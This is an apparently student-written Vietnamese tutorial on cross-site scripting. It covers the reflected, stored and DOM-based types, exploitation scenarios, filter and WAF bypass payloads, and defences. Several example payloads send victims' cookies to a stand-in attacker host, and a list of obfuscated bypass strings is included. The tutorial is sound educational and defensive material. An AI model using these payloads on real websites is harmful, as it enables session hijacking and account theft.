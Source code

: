 **Task4** <br>
- Tìm hiểu XSS và các loại tấn công XSS (XSS là gì, tại sao lại xảy ra lỗi, các loại tấn công phổ biến, cách khai thác + một số cách bypass mà em biết, cách ngăn chặn)
- Dựng lại lab: 3 loại XSS (Reflected, Stored, DOM) <br>
Yêu cầu: Viết lý thuyết lổ hổng 1 cách chi tiết.

# XSS 
## XSS là gì?
- XSS là một lỗ hổng bảo mật cho phép kẻ tấn công chèn thêm vào một loại mã độc(thường là JavaScript) vào một trang web, và khi người dùng truy cập trang web đó mã độc sẽ thực thi trên trình duyệt ngưởi dùng. Điều này cho phép kẻ tấn công lấy được thông tin cá nhân của người dùng, thực hiện các hành động giả mạo hoặc hành động trên trang web thay người dùng.
- Mục đích chính của các cuộc tấn công này là ăn cắp dữ liệu nhận dạng như: cookies, session, tokens... Tấn công XSS được thực hiện ở phía client, phổ biến là thực hiện với HTML và JavaScript.
## Tại sao lại xảy ra lỗi?
- XSS xảy ra khi web không kiểm soát được dữ liệu đầu vào của người dùng . Cụ thể, khi người dùng nhập nhập vào các đầu vào, dữ liệu này có thể chứa ký tự đặc biệt hoặc các mã độc. Và khi không được xử lý đúng thì nó có thể truyền ngược lại cho trình duyệt của người dùng và các đoạn mã độc được thực hiện trên máy người dùng.
- XSS cũng có thể xảy ra khi lưu trữ các dữ liệu nhập vào như bình luận hoặc nội dung mà không qua xử lý. <br>
Qua đó, kẻ tấn công có thể dùng mã độc đó để tấn công, ăn cắp dữ liệu quan trọng ...
## Các loại tấn công phổ biến:
### 1. Reflected XSS
Đây là loại XSS đơn giản nhất. Nó xảy ra khi nhận dữ liệu trong một HTTP request và bao gồm dữ liệu trong phản hồi lập tức theo cách không an toàn. Ví dụ:
```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>
```
Ứng dụng không thực hiện xử lý dữ liệu, vì vậy kẻ tấn công có thể thực hiện cuộc tấn công:
```
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```
Khi người dùng truy cập vào một URL có chứa đoạn mã độc. Khi đó trình duyệt sẽ gửi yêu cầu đến server và server trả về trang web kèm tham số được truyền trên URL. Từ đó, các tham số chứa mã độc đó được thực thi trên trình duyệt người dùng. <br>

**Kịch bản khai thác** <br>
- Khi người dùng đăng nhập vào trang web và được gắn với một cookie.
- Kẻ tấn công sẽ tạo ra 1 web có thể nhận được phản hồi ví dụ: `http://hackersite.net` và bằng 1 cách nào đó gửi cho nạn nhân  1 đường link `www.abcd.com?search=<script>window.location="http://hackersite.net?c="+document.cookie</script>`.
- Khi nạn nhân bị lừa click vào link và khi đó cookie của nạn nhân gắn vào link đó và truy cập vào site của kẻ tấn công.
- Kẻ tấn công khi ấy sẽ xem log của site và lấy được cookie của nạn nhân qua đó có thể truy cập vào tài khoản và thực hiện nhiều hành động khác.

### Mức độ của tấn công
Kẻ tấn công có thể kiểm soát được tập lệnh thực thi của trình duyệt người dùng. Ngoài ra có thể:
- Thực hiện hành động trong ứng dụng mà người dùng thực hiện được:
- Xem bất ký thông tin nào có thể xem.
- Sửa đổi thông tin nào có thể sửa đổi.
- Tương tác với người dùng khác để mở rộng tấn công.
### 2. Stored XSS 
Stored XSS xảy ra khi ứng dụng nhận dữ liệu từ nguồn không đáng tin cậy và bao gồm dữ liệu đó trong HTTP response một cách không an toàn. <br>
Giả sử 1 web cho người dùng gửi comment lên 1 blog và được hiện thị đến người dùng khác. Ví dự khi gửi HTTP request:
```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.
```
Sau khi gửi thành công, bất kỳ người dùng nào cũng có thể thấy được comment và phản hồi dưới dạng:
```
<p>This post was extremely helpful.</p>
```
Khi ứng dụng không có xử lý khác, kẻ tấn công sẽ chèn mã độc vào comment đó, khi đó bất kỳ người dùng nào truy cập vào blog đó thì ứng dụng sẽ thực thi mã độc. <br>
**Kịch bản khai thác** <br>
- Giả sử khi đó kẻ tấn công chèn mã độc vào bình luận để tải lên:
```<script>window.location("http://hackersite.net?c="+document.cookie)</script>```
- Khi có người dùng truy cập vào đúng bài viết có bình luận này thì trình duyệt người dùng thực thi mã độc trên và cookie sẽ đến được với kẻ tấn công.
#### Mức độ của tấn công
- Kẻ tấn công có thể thực hiện bất cứ hành động nào mà nạn nhân thực hiện được như cuộc tấn công Reflected XSS.
- Điểm khác biệt giữa Stored XSS với Reflected XSS là cuộc tấn công này xảy ra trong chính ứng dụng web đó. Ngoài ra kẻ tấn công không phải tìm cách cho nạn nhân thực hiện hành động mới có thể khai thác được mà ở đây bất kỳ nạn nhân trong ứng dụng gặp phải mã độc đó. Với Stored XSS, kẻ tấn công dễ dàng đạt được mục đích hơn vì nạn nhân bị tấn công thì chắc chắn khi đó người dùng đã login và trong phiên làm việc(session) của web.
- Đối tưởng bị ảnh hưởng với Stored XSS có thể là tất cả những người sử dụng ứng dụng web đó.
### 3. DOM-based XSS
- DOM-based XSS xảy ra khi JavaScript lấy dữ liệu từ nguồn có thể kiểm soát của kẻ tấn công và dữ liệu đó được đưa đưa vào phần thực thi code. Khi người dùng truy cập vào trang web đó, mã độc sẽ được thực thi trong trình duyệt của họ, cho phép kẻ tấn công thực hiện các hành động độc hại, như đánh cắp thông tin người dùng hoặc thực hiện các giao dịch không được ủy quyền. <br>
- Sự khác biệt chính giữa DOM-based XSS và các hình thức XSS khác là trong DOM-based XSS, mã độc được chèn vào và thực thi trực tiếp trên Document Object Model (DOM) của trang web, thay vì thông qua các tài liệu HTML hoặc các yếu tố khác trên trang web. Do đó lỗ hổng này chỉ có thể ảnh hưởng ở client-side. <br>
Giả sử 1 trang web chi phép người dùng tìm kiếm thông tin tài khoản bằng cách nhập vào input và yêu cầu đến máy chủ. JavaScript hiện thị kết quả tìm kiếm: 
```
document.getElementById("search_results").innerHTML = "Result of " + username 
```
Trong trường hợp này, kẻ tấn công sẽ chèn mã độc vào trường tìm kiếm và nhập tên người dùng sau:
```
<script>
  window.location="http://hackersite.net?c="+document.cookie
</script>
```
Khi trình duyệt thực hiện mã độc này sẽ chuyển hướng đến site của hacker kèm cookie và khi đó kẻ tấn công có được cookie và sử dụng với mục đích xấu.
#### Mức độ của tấn công
Giống với các cuộc tấn công khác của XSS, kẻ tấn công có thể ăn căp thông tin quan trọng người dùng, thực hiện các hành động khác ... 
## Cách khai thác và bypass
- Tìm kiếm và quan sát các đầu vào và đầu ra như ô tìm kiếm, form, URL, parameters, HTTP header, ... nơi mà kẻ tấn công chèn có thể chèn mã độc.
- Sau đó kẻ tấn công sẽ kiểm tra đầu vào bằng một số ký tự, các tag của html, scripts... rồi xem xét phản hồi nhận được. Test các phương thức trong js xem cách trình duyệt xử lý như `alert()`, `prompt()`.
- Từ đó xác định loại lỗ hổng XSS nào rồi khai thác theo từng loại.

### Một số kỹ thuật và cách bypass
#### Fuzz/Brute-Force
- Test các tags html, custom tag và event có thể xss.(Sử dụng cheat sheet của <a href="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet">PortSwigger</a>)
- Dùng tool như burp suite và wordlist như <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection">PayloadsAllTheThings</a>, <a href="https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS" >Seclists</a>,...
#### Javascript Pseudo-Protocol, Inside JavaScript code và escape ra ngoài:
- `<a href="javascript:alert(1)">click</a>`
- `'-alert(1)-'`, `';-alert(1)//`, `\';alert(1)//`, ...
- `"><script ...`, `</script><img src=1 onerror=alert(document.domain)>`, ...
#### Bypass WAF, filters, blacklist... :
Kỹ thuật obfuscation: 
- Case Toggling: Kết hợp chữ hoa chữ thường như `<ScRipT>alert()</sCRipT>`.
- URL encoding, HTML encoding.
- Chuẩn hóa các ký tự unicode: `prompt()` => `\u0070r\u06f\u006dpt()`.
- Sử dụng comment: `<!--><script>alert/**/()/**/</script>`
- Double encoding: `%253Cscript%253Ealert()%253C%252Fscript%253E`
- Dùng tabs: `<IMG SRC="    jav    ascri    pt:alert    ();">`.
- Dùng các ký tự null bytes: `<scri%00pt>alert(1);</scri%00pt>`

## Cách ngăn chặn XSS
- Lọc đầu vào: Sử dụng blacklist, whitelist, filters, regex, ...
- Xử lý đầu ra, mã hóa ký tự đặc biệt nhằm tấn công.
- Sử dụng các thư viện và frameworks an toàn.
- Sử dụng HTTP-only Cookies để tránh bị đánh cắp, CSP để kiểm soát tài nguyên ngoài, các response headers trả kết quả đúng cách.
- Thường xuyên cập nhật phần mềm, các dạng tấn công mới 






